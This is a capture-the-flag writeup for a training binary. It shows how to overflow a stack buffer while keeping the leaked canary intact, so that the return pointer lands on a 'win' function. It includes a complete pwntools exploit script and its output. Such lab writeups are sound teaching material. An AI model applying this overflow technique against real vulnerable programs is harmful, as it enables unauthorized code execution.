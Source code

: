 # 04_ret_overwrite_canary Writeup

## Steps:
1. Run chall. Notice this is similar to 03 except there is also a canary. So we need to ensure the random value is preserved or the exploit will fail.
```
$ ./chall 

Your goal is to modify the return pointer @ 0x7ffeaacae2c8, to a function called 'win' in the binary.

This is the first program you have seen with protections...

This program has a canary (0xb639618eadfb000) @ 0x7ffeaacae2b8. The way to bypass this protection, and still overwrite
the return pointer, is to append its value to your crafted payload at its relative postion in your payload.

0x7ffeaacae2a0: 0x0000000000000000 0x0000000000000000 
0x7ffeaacae2b0: 0x0000000000000000 0x0b639618eadfb000 
0x7ffeaacae2c0: 0x0000000000000001 0x00007f7aa17d6ca8 

Enter input: AAAA

0x7ffeaacae2a0: 0x0000000a41414141 0x0000000000000000 
0x7ffeaacae2b0: 0x0000000000000000 0x0b639618eadfb000 
0x7ffeaacae2c0: 0x0000000000000001 0x00007f7aa17d6ca8 

You failed to overwrite the return pointer and canary.
```

Using our previous exploit, we get:
```
Enter input: 
0x7fffeca07ba0: 0x4141414141414141 0x4141414141414141 
0x7fffeca07bb0: 0x4141414141414141 0x4141414141414141 
0x7fffeca07bc0: 0x4141414141414141 0x00000000004015c6 

You overwrote the canary, but with the wrong value
```
2. Recieve the `canary` from the line printing it
3. Identify where `win` is using `objdump`
4.  Determine the distance to the canary ~ 3 set of 8 bytes = `24` bytes
5.  Determine the distance to the target variable from the canary ~ 1 set of 8 bytes = `8` bytes
6.  Create the payload
- 24 bytes of garbage to reach `canary`
- value of `canary`
- 8 bytes of garbage to reach return pointer
- address of `win`
```
from pwn import *

target = process("./chall")

var = target.recvuntil(b"This program has a canary (0x")
canary = target.recvuntil(b")")[:-1].strip().decode()

print("Canary is", canary)

canary = int(canary, 16)

win = 0x004015e6

payload = b"A"*24
payload += p64(canary)
payload += b"B"*8
payload += p64(win)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 35656
Canary is f18d4c7aa970c000
[+] Receiving all data: Done (706B)
[*] Process './chall' stopped with exit code 0 (pid 35656)
 @ 0x7fffeac4e218. The way to bypass this protection, and still overwrite
the return pointer, is to append its value to your crafted payload at its relative postion in your payload.

0x7fffeac4e200: 0x0000000000000000 0x0000000000000000 
0x7fffeac4e210: 0x0000000000000000 0xf18d4c7aa970c000 
0x7fffeac4e220: 0x0000000000000001 0x00007f9c6f628ca8 

Enter input: 
0x7fffeac4e200: 0x4141414141414141 0x4141414141414141 
0x7fffeac4e210: 0x4141414141414141 0xf18d4c7aa970c000 
0x7fffeac4e220: 0x4242424242424242 0x00000000004015e6 

Congrats, you successuly changed execution flow!
```
